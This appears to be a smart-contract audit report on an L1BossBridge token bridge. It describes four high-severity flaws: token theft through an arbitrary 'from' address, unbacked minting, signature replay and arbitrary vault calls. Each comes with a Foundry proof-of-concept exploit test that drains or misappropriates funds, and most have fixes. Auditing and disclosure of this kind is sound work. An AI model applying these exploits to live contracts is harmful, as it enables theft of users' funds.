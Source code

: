 ### [H-1] Users who give tokens approvals to `L1BossBridge` may have those assets stolen

**Description:**
The `depositTokensToL2` function allows anyone to call it with a  `from` address of any account that has approved tokens to bridge.

<details>

<summary>Code<summary>

```javascript
function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused
```
</details>

As a consequence, an attacker can move tokens out of any victim account whose token allowance to the bridge is greater than zero. This will move the tokens into the bridge vault, and assign them to the attacker's address in L2.


**Impact:** Funds will be stolen from the victim account.

**Proof of Concept**

<details>

<summary>Code<summary>

```javascript
  function testCanMoveApprovedTokensOfOtherUsers() public{
        vm.prank(user);
        token.approve(address(tokenBridge), 1000e18);

        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(user, attacker, 1000e18);
        tokenBridge.depositTokensToL2(user, attacker, 1000e18);

        assertEq(token.balanceOf(user),0);
        assertEq(token.balanceOf(address(vault)),1000e18);
        vm.stopPrank();
    }
```
</details>


**Recommended Mitigation:** Consider modifying the  `depositTokensToL2` function to only allow the caller to move tokens from their own account. 



```diff
   
-   function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused

+   function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused    
       {
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
-        token.safeTransferFrom(from, address(vault), amount);
+        token.safeTransferFrom(msg.sender, address(vault), amount);

        
-        emit Deposit(from, l2Recipient, amount);
+        emit Deposit(msg.sender, l2Recipient, amount);
    }



```

### [H-2] Calling `depositTokensToL2` from the vault contract to the vault contract allows infinite mining of unbacked tokens.

**Description:** `depositTokensToL2` function allows the caller to specify the `from` address, from which tokens are taken. 

Because the vault grants infinite approval to the bridge already(in contsructor), it is possible for an attacker to call the depositTokensToL2 function and transfer tokens from the vault to the vault itself. This would allow the attacker to trigger the `Deposit` event any number of times, presumably causing the minting of unbacked tokens in l2.

**Impact:**

**Proof of Concept**

```javascript

<details>



   function testCanTransferFromVaultToVault() public {
         address attacker = makeAddr("attacker");
        vm.startPrank(attacker);

        uint256 vaultBalance = 500 ether;
        deal(address(token), address(vault), vaultBalance);

        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), attacker, vaultBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);
        //2nd Time
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), attacker, vaultBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);
        //3rdTime
         vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), attacker, vaultBalance);
        tokenBridge.depositTokensToL2(address(vault), attacker, vaultBalance);
    }
    
</details>

```

**Recommended Mitigation:** Same as H-1, consider modifying the  `depositTokensToL2` function to only allow the caller to move tokens from their own account. 

### [H-3] Lack of replay protection in `withdrawtokensToL1` allows withdrawls by signature to be replayed.

**Description:** Users who want to withdraw tokens from bridge can call the function `sendtoL1` or the wrapper function `withdrawtokensToL1`. These functions require the caller to send along some withdrawl data signed by one of the approved bridge operators. 

However, the signatures do ot include any kind of replay-protection mechanism. Therefore, valid signatures from any bridge operator can be resued by any attacker to continue executing withdralws until the vault is completely drained.

**Impact:**

**Proof of Concept** 

```javascript

<details>

 function testSignatureReplay() public {

        address attacker = makeAddr("attacker");
        uint256 vaultInitialBalance = 1000e18;
        uint256 attackerInititialBalance = 100e18;
        deal(address(token), address(vault), vaultInitialBalance);
        deal(address(token), attacker, attackerInititialBalance);

        vm.startPrank(attacker);
        token.approve(address(tokenBridge), 100e18);
        tokenBridge.depositTokensToL2(attacker, attacker, 100e18);

        bytes memory message = abi.encode(address(token), 0, abi.encodeCall(IERC20.transferFrom, (address(vault), attacker, attackerInititialBalance)));

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(operator.key,  MessageHashUtils.toEthSignedMessageHash(keccak256(message)));

        while(token.balanceOf(address(vault)) > 0){
            tokenBridge.withdrawTokensToL1(attacker, attackerInititialBalance, v, r, s);
        }

            assertEq(token.balanceOf(address(attacker)), attackerInititialBalance + vaultInitialBalance);
        
    }



</details>




```




### [H-4] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds

**Description:** The `L1BossBridge` contract includes the `sendToL1` function that, if called with a valid signature by an operator, can execute arbitary low-level cals to any given target. Because there is no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the `L1Vault` contract. 

The L1BossBridge contract owns the L1Vault contract. Therefore, an attacker could submit a call that targets the vault and executes is approveTo function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.



**Impact:**

**Proof of Concept** 

```javascript

<details>

 function testCanCallVaultApproveFormBridgeAndDrainVault() public {
        address attacker = makeAddr("attacker");
        uint256 vaultInitialBalance = 500e18;

        deal(address(token), address(vault), vaultInitialBalance);

        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(attacker), address(0), 0);
        tokenBridge.depositTokensToL2(attacker, address(0), 0);
        bytes memory message = abi.encode(
            address(vault),
            0,
            abi.encodeCall(
                L1Vault.approveTo,
                ((attacker), token.balanceOf(address(vault)))
            )
        );
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(
            operator.key,
            MessageHashUtils.toEthSignedMessageHash(keccak256(message))
        );

        tokenBridge.sendToL1(v, r, s, message);
        token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));

        console2.log(token.balanceOf(attacker));
    }


</details>


```

**Recommended Mitigation:** Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the L1Vault contract.

